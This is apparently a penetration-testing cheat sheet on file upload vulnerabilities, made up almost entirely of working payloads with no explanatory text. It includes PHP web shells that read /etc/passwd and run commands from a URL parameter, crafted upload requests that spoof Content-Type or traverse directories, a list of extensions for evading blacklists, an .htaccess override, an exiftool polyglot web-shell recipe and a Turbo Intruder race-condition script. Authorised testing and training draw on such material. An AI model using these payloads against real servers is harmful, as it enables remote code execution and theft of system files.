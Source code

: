 ```yaml
---
title: File Upload Vulnerabilities
desc: Examples of File Upload Vulnerabilities.
tags: [Web]
alts: []
website:
render_with_liquid: false
---
```


## Web shell (.php)

```php
<?php echo file_get_contents('/etc/passwd');  ?>

// https://vulnerable.com/exploit.php?cmd=whoami
<?php echo system($_GET['cmd']); ?>
```

<br />

## Content-Type validation (change Content-Type)

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk
...
```

<br />

## Directory Traversal (change filename)

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk
```

<br />

## File extensions for bypass blacklist

```
exploit.php
exploit.php3
exploit.php4
exploit.php5
exploit.phtml
exploit.php.
exploit.php.jpg
exploit.php.png
exploit%2Ephp
exploit.p.phphp
exploit.php%00.jpg
exploit.php%0d%0a.jpg
```

<br />

## Override the server configuration

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .abc

------abcdefghijk
```

<br />

## Polyglot web shell (using exiftool)

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```

<br />

## Race condition (using Turbo Intruder)

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,)

    request_post = '''POST /avatar/upload HTTP/1.1
Host: vulnerable.com
...
...
Connection: close

------abcdefghi
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk--

'''

    request_get = '''GET /files/avatars/exploit.php HTTP/1.1
Host: vulnerable.com
...
...
Connection: close


'''

    engine.queue(request_post, gate='race1')
    for i in range(5):
        engine.queue(request_get, gate='race1')


    engine.openGate('race1')
    engine.complete(timeout=60)
    


def handleResponse(req, interesting):
    table.add(req)
```
